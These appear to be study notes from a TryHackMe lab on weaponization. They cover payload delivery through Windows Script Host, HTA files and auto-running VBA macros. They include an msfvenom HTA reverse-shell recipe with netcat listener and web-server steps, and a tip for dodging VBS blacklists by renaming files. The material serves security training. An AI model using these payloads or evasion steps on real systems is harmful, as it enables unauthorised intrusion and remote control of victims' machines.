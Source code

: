 # Weaponization


## Introduction
- Weaponization is the second stage of the Cyber Kill CHain model
- ![Model](Images/intro_1.png)
- Attacker generates and develops their malicious code and tries to exploit the machine
- Phishing campaigns, social engineering, browser/software exploitation, usb, etc.
- ![Model](Images/intro_2.png)
- [Red Team Toolkit github](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)
- Most organizations block or monitor the execution of `.exe` files, so red teamers rely on other techniques
    - The Windows Script Host (WSH)
    - An HTML Application (HTA)
    - Visual Basic Applications (VBA)
    - PowerShell (PSH)

## Windows Scripting Host - WSH
- Windows scripting host - a built in windows admin tool that runs batch files to automate and manage tasks within the os
- `cscript.exe` for CLI and `wscript.exe` for UI
    - `cscript.exe <file>` or `wscript.exe <file>` to execute code in file
- Responsible for execitomg various VBAScripts
- Simple VBS script to print a dialog box
```
Dim message 
message = "Welcome to THM"
MsgBox message
```
- Execute exe files
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
- If VBS files are blacklisted, you can rename them to `.txt` and then run it with `wscript` or `cscript`

## HTML Application - HTA
- HTA can contain JS and VBScript
- On windows HTA files are run using `mshta` tool
- Sample HTA code to launch cmd
```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- HTA Reverse Shell
    1. Use msfvenom to create a payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta`
    2. Set up a nc listener `nc -nvlp 443`
    3. Serve the payload with a web server like python `python3 -m http.server`
    4. Wait for target to launch payload

## Visual Basic for Application - VBA
- A programming language created by Microsoft used for applications like Word, Excel, Powerpoint, etc.
- Allows automating tasks of nearly every keyboard and mouse interaction
- Macros - Microsoft office applications that contain embedded code written in VBA
- Edit macros in `View > Macros`
- Sample code to create message box
```
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```
- To execute macro automatically when document gets opened use AutoOpen and Document_open functions
```
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```
- To make macros work, you need to save it in a macro-enabled format like `.doc` or `.docm`
